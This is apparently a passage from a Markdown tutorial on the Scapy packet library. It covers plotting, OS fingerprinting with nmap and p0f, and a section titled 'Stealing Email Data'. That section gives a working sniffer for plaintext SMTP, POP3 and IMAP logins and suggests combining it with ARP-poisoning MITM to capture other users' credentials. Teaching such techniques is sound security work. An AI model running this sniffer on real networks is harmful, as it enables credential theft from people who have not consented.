 
We also can plot  graphs with the function **plot()** and **graph()**,  and we can generate 3D  plots with **trace3D()**.



### Nice Third Party Modules

[Fingerprinting](http://nmap.org/book/osdetect-fingerprint-format.html) can be made with the **nmap_fp()** module (which comes from [Nmap](http://nmap.org) prior to v4.23):

```python
>>> load_module("nmap")
>>> nmap_fp("192.168.0.114")
```
[Passive OS fingerprinting](http://www.netresec.com/?page=Blog&month=2011-11&post=Passive-OS-Fingerprinting) can be made with the **p0f** module:

```python
>>>> load_module('p0f')
>>>> sniff(prn=prnp0f)
```




-----------
## <a name="email"></a> Stealing Email Data

The idea of this script is to build a sniffer to capture [SMTP](http://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol), [POP3](http://en.wikipedia.org/wiki/Post_Office_Protocol), and [IMAP](http://en.wikipedia.org/wiki/Internet_Message_Access_Protocol) credentials. Once we couple this sniffer with some [MITM](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) attack (such as **ARP poisoning), we can steal credentials from other machines in the network.

With this in mind, we write a script that runs a sniffer on all the interfaces, with no filtering. The **sniff**'s **store=0** attribute ensures that the packets are not kept in memory (so we can leave it running):

```python
from scapy.all import *

def packet_callback(packet):
    # check to make sure it has a data payload
    if packet[TCP].payload:
        mail_packet = str(packet[TCP].payload)
        if 'user' in mail_packet.lower() or 'pass' in mail_packet.lower():
            print '[*] Server: %s' % packet[IP].dst
            print '[*] %s' %packet[TCP].payload

sniff(filter="tcp port 110 or tcp port 25 or tcp port 143", prn=packet_callback, store=0)
```

Running this script when loading load some mail client (such as [Thunderbird](https://www.mozilla.org/en-US/thunderbird/)) will allow us to see the login information if they are sent to the server as plain text.
